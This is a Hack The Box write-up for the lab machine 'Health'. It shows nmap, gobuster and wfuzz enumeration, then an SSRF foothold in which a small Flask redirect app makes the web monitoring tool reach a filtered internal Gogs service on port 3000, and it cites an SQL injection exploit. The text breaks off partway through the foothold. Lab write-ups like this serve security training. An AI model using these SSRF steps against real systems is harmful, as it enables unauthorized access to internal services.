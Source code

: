 ```yaml
---
title: "[HTB] Machine: Health"
description: "[HTB] Machine: Health"
date: 2023-11-09
menu:
  sidebar:
    name: "[HTB] Machine: Health"
    identifier: htb-machine-Health
    parent: htb-machines-linux
    weight: 10
hero: images/health.png
tags: ["HTB"]
---
```


# Health
## Enumeration
- `nmap`
  - `Note`: I missed filtered port `3000`
  - `nmap` behaves weirdly when using `--min-rate`, thus run it without that flag too
```
└─$ nmap -Pn -p- 10.10.11.176 --min-rate 1000              
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 18:01 GMT
Warning: 10.10.11.176 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.176 (10.10.11.176)
Host is up (0.17s latency).
Not shown: 60437 closed tcp ports (conn-refused), 5096 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 142.48 seconds
```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.11.176 --min-rate 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 18:04 GMT
Nmap scan report for 10.10.11.176 (10.10.11.176)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 32:b7:f4:d4:2f:45:d3:30:ee:12:3b:03:67:bb:e6:31 (RSA)
|   256 86:e1:5d:8c:29:39:ac:d7:e8:15:e6:49:e2:35:ed:0c (ECDSA)
|_  256 ef:6b:ad:64:d5:e4:5b:3e:66:79:49:f4:ec:4c:23:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HTTP Monitoring Tool
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.70 seconds

```
```
└─$ nmap -Pn -sC -sV 10.10.11.176 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-10 16:26 GMT
Stats: 0:00:38 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.99% done; ETC: 16:27 (0:00:00 remaining)
Nmap scan report for health.htb (10.10.11.176)
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 32:b7:f4:d4:2f:45:d3:30:ee:12:3b:03:67:bb:e6:31 (RSA)
|   256 86:e1:5d:8c:29:39:ac:d7:e8:15:e6:49:e2:35:ed:0c (ECDSA)
|_  256 ef:6b:ad:64:d5:e4:5b:3e:66:79:49:f4:ec:4c:23:9f (ED25519)
80/tcp   open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HTTP Monitoring Tool
|_http-server-header: Apache/2.4.29 (Ubuntu)
3000/tcp filtered ppp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.26 seconds
```

- Web Server

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://health.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt  -x txt,html,php --no-error -t 50 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://health.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/.html.html           (Status: 403) [Size: 275]
/.html.txt            (Status: 403) [Size: 275]
/.html.php            (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 7354]
/js                   (Status: 301) [Size: 305] [--> http://health.htb/js/]
/css                  (Status: 301) [Size: 306] [--> http://health.htb/css/]
/.htm                 (Status: 403) [Size: 275]
/.htm.txt             (Status: 403) [Size: 275]
/.htm.html            (Status: 403) [Size: 275]
/.htm.php             (Status: 403) [Size: 275]
/javascript           (Status: 301) [Size: 313] [--> http://health.htb/javascript/]

```

- `vhosts`
```
└─$ wfuzz -u http://health.htb/ -H 'Host: FUZZ.health.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 620
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://health.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000689:   400        10 L     35 W       301 Ch      "gc._msdcs"
```

## Foothold
- I set my ip on both `url` links
  - Both urls are requested

![](./images/2.png)

- I'll listen with `nc`

![](./images/3.png)

- I'll try to host `Monitored URL` via `python` and listen to `Payload URL` on `nc`

![](./images/4.png)

- If try entering `localhost`, it returns error
  - The reason was to check if I could perform `SSRF` on port `3000` which is filtered
  - We can launch some `flask` app which will try to redirect to port `3000` and see if it works
```
from flask import Flask, redirect, request

app = Flask(__name__)


@app.route("/", methods=["GET"])
def r():
    url = request.args.get("url")
    return redirect(url, code=302)


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=80)
```
```
└─$ python3 app.py                                                                                                                
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://10.0.2.15:80
<SNIP>
```

- We succesfully performed `SSRF`

![](./images/5.png)

- Let's test it on port `3000`

![](./images/6.png)

- It's a `GoGits Version: 0.5.5.1010 Beta`
  - There is `sqli` in that specific version
    - https://www.exploit-db.com/exploits/35238
  - 